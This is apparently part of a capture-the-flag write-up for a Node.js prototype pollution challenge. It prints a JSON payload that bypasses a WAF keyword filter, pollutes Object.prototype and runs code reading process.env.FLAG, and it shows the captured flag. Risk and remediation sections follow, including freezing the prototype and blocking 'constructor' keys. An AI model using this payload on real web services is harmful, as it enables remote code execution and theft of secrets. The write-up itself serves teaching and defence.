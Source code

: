 ## Proof of Concept
With our crafted payload, we are able to
1. Bypass the WAF restriction
2. Pollute the JavaScript Object.prototype
3. Run arbitrary JavaScript code

**PAYLOAD: `{"constructor": {"prototype": {"debug": {"active": true,"code":"process.env.FLAG"}}},"random": {"toString":{}}}`**

**FLAG: `FLAG{$m4ll_m1st4ke_t0_rcE!}`**

## Risk
An attacker could exploit this vulnerability to perform Remote Code Execution (RCE) and run arbitrary JavaScript code, disclosing sensitive information such as environment variables, and even read files on the web server.

## Remediation
The following methods could be used to prevent Prototype Pollution attacks
- Use Object.create(proto) to create hacker profile objects with a custom prototype
- Run Object.freeze(Object.prototype) to prevent modifications from being made on the default prototype
- Add new WAF rules to prevent keywords such as "constructor" or "prototype" from being used as keys. However, this method is tricky to implement as there may be loopholes attackers can exploit to bypass such rules.

![Challenge Completed](./pwned.jpg)
